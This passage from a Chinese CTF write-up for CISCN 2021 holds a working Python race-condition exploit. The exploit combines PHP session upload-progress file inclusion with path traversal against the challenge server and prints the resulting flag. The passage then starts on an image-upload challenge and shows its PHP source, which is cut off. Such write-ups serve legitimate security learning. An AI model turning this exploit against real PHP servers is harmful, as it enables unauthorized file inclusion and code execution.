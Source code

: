 ```python
        data={
            "PHP_SESSION_UPLOAD_PROGRESS":file_content
        }
        headers={
            "Cookie":'PHPSESSID=1234'
        }
        r.post(url,files=file,headers=headers,data=data)

def READ():
    while True:
        event.wait()
        t=r.post("http://124.70.35.238:23579/", data={"cf":'../../../../../../../../../../var/lib/php/sessions/fccecfeaje/sess_1234'})
        if len(t.text) < 2230:
            print('[+]retry')
        else:
            print(t.text)
            event.clear()
event=threading.Event()
event.set()
threading.Thread(target=POST,args=()).start()
threading.Thread(target=POST,args=()).start()
threading.Thread(target=POST,args=()).start()
threading.Thread(target=READ,args=()).start()
threading.Thread(target=READ,args=()).start()
threading.Thread(target=READ,args=()).start()
```

![](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210522220603.png)

CISCN{yo19m-ZqNC1-URusV-u83jg-zxqpZ-}



### upload

mb_strtolower、PHP二次渲染

这道题收卷两小时之前就看到phpinfo了，但是没做出来，有点可惜

访问题目就有源码

index.php

```php
<?php
if (!isset($_GET["ctf"])) {
    highlight_file(__FILE__);
    die();
}

if(isset($_GET["ctf"]))
    $ctf = $_GET["ctf"];

if($ctf=="upload") {
    if ($_FILES['postedFile']['size'] > 1024*512) {
        die("这么大个的东西你是想d我吗？");
    }
    $imageinfo = getimagesize($_FILES['postedFile']['tmp_name']);
    if ($imageinfo === FALSE) {
        die("如果不能好好传图片的话就还是不要来打扰我了");
    }
    if ($imageinfo[0] !== 1 && $imageinfo[1] !== 1) {
        die("东西不能方方正正的话就很讨厌");
    }
    $fileName=urldecode($_FILES['postedFile']['name']);
```